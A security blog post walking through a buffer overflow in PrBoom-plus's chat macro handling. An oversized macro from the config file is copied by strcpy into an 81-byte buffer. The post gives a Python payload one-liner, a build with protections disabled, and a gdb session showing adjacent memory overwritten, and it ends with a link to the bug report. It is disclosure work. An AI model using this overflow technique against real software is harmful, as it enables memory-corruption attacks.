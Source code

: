 ```yaml
---
layout: post
title: "[EN] A-Z: PrBoom-plus (part II) and <i>message_nottobefuckedwith</i>"
published: true
date: 2019-10-07
author: Michal
redirect: https://logicaltrust.net/blog/2019/10/prboom2.html
---
```


As in the previous post, I was digging in [PrBoom-plus's code](https://svn.prboom.org/repos/branches/prboom-plus-24/prboom2/). When I was going through `hu_stuff.c` these two variables caught my eye:

{% highlight x %}
189  dboolean           message_dontfuckwithme;
190  static dboolean    message_nottobefuckedwith;
{% endhighlight %}

It's always funny to find such names in source code. It was even better when I found out that it's part of [original Doom's code](https://github.com/id-Software/DOOM/blob/77735c3ff0772609e9c8d29e3ce2ab42ff54d20b/linuxdoom-1.10/hu_stuff.c#L99). So I took a challange I tried to have some fun with it.


### chat macro buffer overflow

I looked at code in `m_misc.c` responsible for parsing a configuration file. I noticed that chat macro variables are accepted with quite large length limit (excatly 31988 bytes). 

{% highlight x %}
706    {"Chat macros",{NULL},{0},UL,UL,def_none,ss_none},
707    {"chatmacro0", {0,&chat_macros[0]}, {0,HUSTR_CHATMACRO0},UL,UL,
708     def_str,ss_chat}, // chat string associated with 0 key
[...]
1415  #define CFG_BUFFERMAX 32000
[...]
1500    f = fopen (defaultfile, "r");
[...]
1507        fgets(cfgline, CFG_BUFFERMAX, f);
1508        if (sscanf (cfgline, "%79s %[^\n]\n", def, strparm) == 2)
{% endhighlight %}

These macros may be used during the game by starting chat (by pressing `t`) and then selecting a specific macro with a key combination `alt` + macro number. Code responsible for handling this situation is in `hu_stuff.c`

{% highlight x %}
2820      if (altdown)
2821      {
2822        c = c - '0';
2823        if (c > 9)
2824          return false;
2825        macromessage = chat_macros[c];
2826  
2827        // kill last message with a '\n'
2828          HU_queueChatChar((char)key_enter); // DEBUG!!!                // phares
2829  
2830        // send the macro message
2831        while (*macromessage)
2832          HU_queueChatChar(*macromessage++);
2833        HU_queueChatChar((char)key_enter);                            // phares
2834  
2835        // leave chat mode and notify that it was sent
2836        chat_on = false;
2837        strcpy(lastmessage, chat_macros[c]);
2838        plr->message = lastmessage;
2839        eatkey = true;
2840      }
{% endhighlight %}

Macro message is retrieved from the array at line 2825, lines 2827 - 2833 are responsible for preparing the text to be displayed. Then, at line 2837 the text (which has no length boundaries) is copied to `lastmessage` variable. This buffer has fixed size, 81 bytes.

`hu_lib.h`:
{% highlight x %}
51  #define HU_MAXLINELENGTH  80
{% endhighlight %}

`hu_stuff.c`:
{% highlight x %}
2722    static char   lastmessage[HU_MAXLINELENGTH+1];
{% endhighlight %}

Summarizing, we have control over `chat_macros` value, which may have up to 31988 bytes read from configuration file. Then, these bytes are copied the `lastmessage` for which only 81 bytes are allocated - this is typical buffer overflow. As uninitialized global and static variables reside in a .`bss` segment, I hoped that I will be able use this overflow to overwrite them.

I prepared a configuration file with a payload (0x61 is *a*):
{% highlight x %}
# python -c 'print "chatmacro0 \"" + "\x61" * 4000 + "\""' > test.cfg
# cat test.cfg
chatmacro0 "aaaaaaaaaaaaaaaaaaaaa[...]
{% endhighlight %}

I compiled the game with additional compiler flag `-D_FORTIFY_SOURCE=0` which disables a modern protection against buffer overflow exploitation. Then I started the server and the first client.
{% highlight x %}
root@ubuntu16:~/projects/prboom-plus/prboom2/bin/games# ./prboom-plus-game-server 
Listening on port 5030, waiting for 2 players
{% endhighlight %}
{% highlight x %}
root@ubuntu16:~/projects/prboom-plus/prboom2/bin/games# ./prboom-plus -iwad /root/projects/prboom-plus/freedm-0.11.3/freedm.wad -net 127.0.0.1 -window -nomouse
{% endhighlight %}

The second client I ran using gdb,
{% highlight x %}
root@ubuntu16:~/projects/prboom-plus/prboom2/bin/games# gdb --args ./prboom-plus -iwad /root/projects/prboom-plus/freedm-0.11.3/freedm.wad -net 127.0.0.1 -window -nomouse -config /root/projects/prboom-plus/test.cfg
{% endhighlight %}
and set up a breakpoint on vulnerable line (`strcpy` invocation).
{% highlight x %}
(gdb) break hu_stuff.c:2837
Breakpoint 1 at 0x80a00ce: file hu_stuff.c, line 2837.
(gdb) c
Continuing.
{% endhighlight %}

In the game I used my macro (by pressing `t` and `alt` + `0`), and the breakpoint was hit.
{% highlight x %}
Thread 1 "prboom-plus" hit Breakpoint 1, HU_Responder (ev=0xbf836cd4) at hu_stuff.c:2837
2837        strcpy(lastmessage, chat_macros[c]);
{% endhighlight %}

Memory before triggering vulnerablity:
{% highlight x %}
(gdb) x/4x &message_nottobefuckedwith 
0x817d568 <message_nottobefuckedwith>:  0x00000000  0x00000000  0x00000000  0x00000000
{% endhighlight %}
just one step calling `strcpy`,
{% highlight x %}
(gdb) n
2838        plr->message = lastmessage;
{% endhighlight %}
and the result shows how I fucked with DOOM and its *message_nottobefuckedwith*:
{% highlight x %}
(gdb) x/4x &message_nottobefuckedwith 
0x817d568 <message_nottobefuckedwith>:  0x61616161  0x61616161  0x61616161  0x61616161
{% endhighlight %}

- submission: [https://sourceforge.net/p/prboom-plus/bugs/254/](https://sourceforge.net/p/prboom-plus/bugs/254/)
